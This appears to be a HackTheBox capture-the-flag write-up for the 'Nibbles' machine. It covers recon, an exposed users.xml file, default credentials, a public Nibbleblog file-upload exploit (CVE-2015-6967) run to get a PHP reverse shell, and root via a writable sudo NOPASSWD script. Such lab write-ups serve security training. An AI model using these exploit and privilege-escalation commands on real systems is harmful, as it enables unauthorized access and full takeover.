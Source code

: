 ```yaml
---
title: Nibbles
tags:
  - HackTheBox
  - Easy
  - Linux
  - Web
  - Sudo-Vulnerability
date: 2024-11-04T00:00:00Z
---
```

![](Pasted%20image%2020241104161017.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.10.75 nibbles.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- nibbles.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http
|_http-title: Site doesn't have a title (text/html).
```

So I decided to take a look at the webpage:

![](Pasted%20image%2020241104161240.png)

Inspecting the source code I notice the hidden directory `nibbleblog`:

![](Pasted%20image%2020241104161349.png)

![](Pasted%20image%2020241104161421.png)

So I decided to perform some enumeration using [dirsearch 📁](/notes/tools/dirsearch.md):

```shell
dirsearch -e php -u http://nibbles.htb/nibbleblog/

[redacted]
[16:17:19] 301 -  321B  - /nibbleblog/admin  ->  http://nibbles.htb/nibbleblog/admin/
[16:17:19] 200 -  606B  - /nibbleblog/admin.php                             
[16:17:19] 200 -  516B  - /nibbleblog/admin/                                
[16:17:19] 301 -  332B  - /nibbleblog/admin/js/tinymce  ->  http://nibbles.htb/nibbleblog/admin/js/tinymce/
[16:17:19] 200 -  563B  - /nibbleblog/admin/js/tinymce/
[16:17:24] 301 -  323B  - /nibbleblog/content  ->  http://nibbles.htb/nibbleblog/content/
[16:17:24] 200 -  485B  - /nibbleblog/content/                              
[16:17:25] 200 -  724B  - /nibbleblog/COPYRIGHT.txt                         
[16:17:29] 200 -   92B  - /nibbleblog/install.php                           
[16:17:29] 200 -   92B  - /nibbleblog/install.php?profile=default           
[16:17:30] 301 -  325B  - /nibbleblog/languages  ->  http://nibbles.htb/nibbleblog/languages/
[16:17:30] 200 -   12KB - /nibbleblog/LICENSE.txt                           
[16:17:34] 200 -  694B  - /nibbleblog/plugins/                              
[16:17:34] 301 -  323B  - /nibbleblog/plugins  ->  http://nibbles.htb/nibbleblog/plugins/
[16:17:35] 200 -    5KB - /nibbleblog/README                                
[16:17:39] 301 -  322B  - /nibbleblog/themes  ->  http://nibbles.htb/nibbleblog/themes/
[16:17:39] 200 -  498B  - /nibbleblog/themes/                               
[16:17:40] 200 -  815B  - /nibbleblog/update.php
```

So I checked the `admin.php` file:

![](Pasted%20image%2020241104162503.png)

After some typical combination, none got me inside, so I decided to check the other findings. The one who got me up was `update.php`:

![](Pasted%20image%2020241104162615.png)

*So can I read private files?* That gave me an idea: I could inspect the `http://nibbles.htb/nibbleblog/content/private/` directory and maybe find some creds:

![](Pasted%20image%2020241104162734.png)

The one which was more interesting was `users.xml`:

![](Pasted%20image%2020241104163003.png)

Now we know that there is a user called `admin`

## Exploitation

Then i decided to search for "*nibbleblog cve*" and found [CVE-2015-6967](https://github.com/dix0nym/CVE-2015-6967). BTW it seems that common creds to use are `admin:nibbles`. I tried them and worked:

![](Pasted%20image%2020241104163159.png)

So I cloned the repo and executed the exploit to get a reverse shell:

```shell
python3 exploit.py --url http://nibbles.htb/nibbleblog/ --username admin --password nibbles --payload ../../shell.php
```

![](Pasted%20image%2020241104163547.png)

Now I can read the user flag:

![](Pasted%20image%2020241104164111.png)

## Privilege Escalation

If we run:

```shell
sudo -l

[redacted]
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

So we can create that file with the following content:

```shell
bash -i
# Then
sudo /home/nibbler/personal/stuff/monitor.sh
```

Now we're root and can read root flag:

![](Pasted%20image%2020241104164949.png)

==Machine pwned!==



